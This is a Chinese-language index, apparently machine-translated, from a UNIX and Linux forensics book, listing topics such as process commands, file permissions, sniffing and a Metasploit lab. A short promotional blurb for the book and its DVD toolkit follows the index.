- 运行进程主机, 92
- “NI”和“PR”列, 95
- 进程状态码, 94
- ps 命令, 48
- ps 命令, 93, 95
- top 命令, 93–94
- top 和使用 CPU, 95
- 从 LiveCD 启动选项启动, 16
- CD-ROM, 15
- 控制台启动消息, 16
- 图形显示和窗口界面, 17
- 窗口管理器位于, 18
- CD 刻录, 14
- 下载, 13–14
- Ubuntu 7.10 桌面, 17
- UDP (用户数据协议), 105
- umask 命令, 26
- “Unix”, 10–11
- UNIX 取证分析。见 Linux
- 缺乏研究, 2
- “散弹枪”法, 40
- Unix 类操作系统示例, 11–12
- 漏洞, 29
- 身份验证安全性, 25, 28
- 文件权限, 26
- “set GID” 权限, 27
- SUID root 的 shell, 27
- 用户账户, 25
- Unix 路径, 29
- uptime 行, 159
- Linux 中的用户账户, 25
- 用户活动 shell 历史, 86
- 用户 ID, 86
- who 和 w 命令, 86–87
- 用户身份验证, 28
- 用户数据协议 (UDP), 105
- 用户 ID, 29
- 安全 Shell (SSH), 101, 187
- 安全套接层 (SSL), 144
- setgid 二进制文件, 176。见 Linux
- 嗅器, 51–52, 144
- sysfs 文件系统, 166–167
- 模块, 166
- syslog 日志, 178
- 系统和安全配置文件及 cron 任务, 176
- 用户、组和权限, 173–176
- 系统负载平均, 328
- Tail, 76
- TCP (传输控制协议), 105
- /tmp, 30
- top 命令, 49
- touch 命令, 42
- 传输协议 (TCP), 105, 187
- /var, 30
- 版本文件, 159
- 虚拟文件系统, 154, 156
- sysfs, 166–167
- 虚拟局域网 (VLAN), 40
- 虚拟网络 (VPN), 75
- 使用 FreshClam 更新病毒数据库, 191–192
- 易失数据, 41
- VPN (虚拟网络), 75
- Windows
- “c:\”,31
- 命令行提示符和 Linux shell, 20
- 文件系统, 34
- 图形子系统, 17
- 窗口管理器, 17
- Windows 分区, 32
- Windows 2000 服务器，针对 Metasploit 框架 (MSF), 125–126
- 远程主机的管理命令 shell, 127–128
- TCP 流量, 126–127 来自 Web GUI, 129–134
- Wireshark
- nmap 扫描, 119
- 以 tcp dump 格式嗅探网络流量, 118
- 使用 Wireshark 观察流量, 127-Wireshark, 黑客工具, 118–129 TCP 流量, 126–127
# X
- X11, 17–18

# Z
- zgrep 命令, 76

# 电子书下载

# UNIX 和 Linux 取证 DVD 工具包

唯一针对 *nix 的数字取证分析书籍！

- + 当下次 *nix 系统成为调查范围时，你可以立即上手
- 利用你的 Windows 技能调查 *nix 系统
- 随附 DVD 和自定义工具允许你测试新的调查技术

Chris Pogue
Cory Altheide
Todd Haverkos

